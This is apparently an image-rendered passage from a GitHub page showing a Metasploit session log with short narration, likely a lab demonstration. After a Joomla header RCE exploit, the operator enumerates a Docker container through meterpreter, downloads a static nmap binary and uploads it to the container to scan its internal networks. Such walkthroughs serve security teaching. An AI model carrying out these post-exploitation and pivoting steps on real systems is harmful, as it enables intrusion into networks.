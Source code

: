    meterpreter > sysinfo
    Computer    : e8b1f84ef81f
    OS          : Linux e8b1f84ef81f 4.4.0-142-generic #168-Ubuntu SMP Wed Jan 16 21:00:45 UTC 2019 x86_64
    Meterpreter : php/linux
    meterpreter > shell
    Process 38 created.
    Channel 0 created.
    cat /proc/1/cgroup
    11:devices:/docker/e8b1f84ef81fe803674333e4c5f0b19143dc8dcb18d07b59ceac1f4332c60e83
    10:freezer:/docker/e8b1f84ef81fe803674333e4c5f0b19143dc8dcb18d07b59ceac1f4332c60e83
    9:perf_event:/docker/e8b1f84ef81fe803674333e4c5f0b19143dc8dcb18d07b59ceac1f4332c60e83
    8:memory:/docker/e8b1f84ef81fe803674333e4c5f0b19143dc8dcb18d07b59ceac1f4332c60e83
    7:blkio:/docker/e8b1f84ef81fe803674333e4c5f0b19143dc8dcb18d07b59ceac1f4332c60e83
    6:hugetlb:/docker/e8b1f84ef81fe803674333e4c5f0b19143dc8dcb18d07b59ceac1f4332c60e83
    5:pids:/docker/e8b1f84ef81fe803674333e4c5f0b19143dc8dcb18d07b59ceac1f4332c60e83
    4:net_cls,net_prio:/docker/e8b1f84ef81fe803674333e4c5f0b19143dc8dcb18d07b59ceac1f4332c60e83
    3:cpu,cpuacct:/docker/e8b1f84ef81fe803674333e4c5f0b19143dc8dcb18d07b59ceac1f4332c60e83
    2:cpuset:/docker/e8b1f84ef81fe803674333e4c5f0b19143dc8dcb18d07b59ceac1f4332c60e83
    1:name=systemd:/docker/e8b1f84ef81fe803674333e4c5f0b19143dc8dcb18d07b59ceac1f4332c60e83
    "This confirms joomla is running inside a docker container."

    ip a
    1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1
        link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
        inet 127.0.0.1/8 scope host lo
            valid_lft forever preferred_lft forever
    21: eth0@if22: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default
        link/ether 02:42:ac:13:00:04 brd ff:ff:ff:ff:ff:ff
        inet 172.19.0.4/16 brd 172.19.255.255 scope global eth0
            valid_lft forever preferred_lft forever
    29: eth1@if30: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default
        link/ether 02:42:ac:12:00:03 brd ff:ff:ff:ff:ff:ff
        inet 172.18.0.3/16 brd 172.18.255.255 scope global eth1
            valid_lft forever preferred_lft forever
    "Hacker now knows joomla container is connected to two docker networks."

    exit
    meterpreter > background
    [*] Backgrounding session 1...
    msf exploit(multi/http/joomla_http_header_rce) > curl -O https://raw.githubusercontent.com/andrew-d/static-binaries/master/binaries/linux/x86_64/nmap
    [*] exec: curl -O https://raw.githubusercontent.com/andrew-d/static-binaries/master/binaries/linux/x86_64/nmap

    % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                    Dload  Upload   Total   Spent    Left  Speed
    100 5805k  100 5805k    0     0  6902k      0 --:--:-- --:--:-- --:--:-- 6894k

    msf exploit(multi/http/joomla_http_header_rce) > sessions -i 1
    [*] Starting interaction with 1...

    meterpreter > upload nmap /tmp
    [*] uploading  : nmap -> /tmp
    [*] uploaded   : nmap -> /tmp/nmap
    meterpreter > shell
    Process 72 created.
    Channel 2 created.
    cd /tmp
    chmod 755 nmap
    "Copied nmap to joomla. Now we will start scanning the two networks joomla is connected to."
